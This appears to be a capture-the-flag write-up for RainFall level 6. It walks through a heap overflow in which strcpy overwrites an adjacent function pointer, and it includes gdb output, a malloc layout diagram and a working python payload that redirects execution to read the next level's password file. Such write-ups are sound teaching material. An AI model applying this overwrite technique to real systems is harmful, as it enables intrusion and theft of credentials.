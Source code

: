 # Level 6

<h3>source.c</h3>

```console
void n(void) {
  system("/bin/cat /home/user/level7/.pass");
}

void m(void) {
  puts("Nope");
}

void main(int argc, char** argv) {
  char* str;
  void* func;

  str = malloc(64);
  func = malloc(4);

  func = &m;

  strcpy(str, argv[1]);
  func();
}
```

<h3>Step</h3>

In this program, there is `n()` which will give us the password to the next level, however this function will never get called

Next in the main function, we see 2 local variable which will each be malloc with a certain amount of memory

`str` will be given a pointer to the `heap` with 64 useable memory and `func` will be given 4 `heap` memory

At the later part of the program we can see there is a call to `strcpy()` which is normally vulnerable, but there is another more interesting thing to look at

`func` is given the address of `m()` and at the last part of the `main()`, it called `func` which in turn will execute the `m()`

Since `func` is just a pointer to an address located in the `heap`, we could use the vulnerability of `strcpy()` to overflow `str` and overwrite the data of `func` so it will execute `n()` instead

<h3>Exploit</h3>

First we need to get the address of `n()`

```console
(gdb) print n
$1 = {<text variable, no debug info>} 0x8048454 <n>
```

There we have the address of `n()` which is `0x08048454`

Next we will explore on how the `heap` look like after the 2 call of `malloc()`

`str` request a memory area of 64 bytes, and get a pointer to that memory, and `func` request a memory area of 4 bytes and got a pointer to that memory

The way malloc work is that it will call `nmap()` which reserve a chunk of memory or a `page` to be used

Next the `malloc` will manage this `page` and keep a `metadata` to keep track on how much memory is left and how many block of address is free to be use

```console
+--------------------------------+
|         page of memory         |      -> area given to malloc by nmap
+--------------------------------+

+--------------------------------+
| M |                            |      -> malloc will put the metadata (M) at the begining of the page to store the information of the area it owns
+--------------------------------+

1st malloc call

+--------------------------------+
| M | B | 64 bytes |             |      -> malloc will create a block (B) which contain the info that the next 64 bytes is now reserve (not free) and
+--------------------------------+         it will return the pointer to the begining of that 64 bytes to be use
        | *str     |
        +----------+

2nd malloc call

+--------------------------------+
| M | B | 64 bytes | B | 4 bytes |      -> malloc will create new block (B) which contain the info that the next 4 bytes is now reserve (not free) and
+--------------------------------+         it will return the pointer to the begining of that 4 bytes to be use
        | *str     |   | *func   |
        +----------+   +---------+
```

We could see that the memory area of `str` and `func` is actually side by side, and only seperated by a block (B) with is 8 bytes long

`str` have a memory size of 64 bytes, and adding the 8 bytes from the block, we get 72 which is the offset that is needed to start overwriting the `func` memory area

```console
level6@RainFall:~$ ./level6 `python -c "print 'a' * 72 + '\x54\x84\x04\x08'"`
f73dcb7a06f60e3ccc608990b0a046359d42a1a0489ffeefd0d9cb2d7c9cb82d
```

<h3>Helpful link for this exploit</h3>
https://www.youtube.com/watch?v=HPDBOhiKaD8&list=PLhixgUqwRTjxglIswKp9mpkfPNfHkzyeN&index=27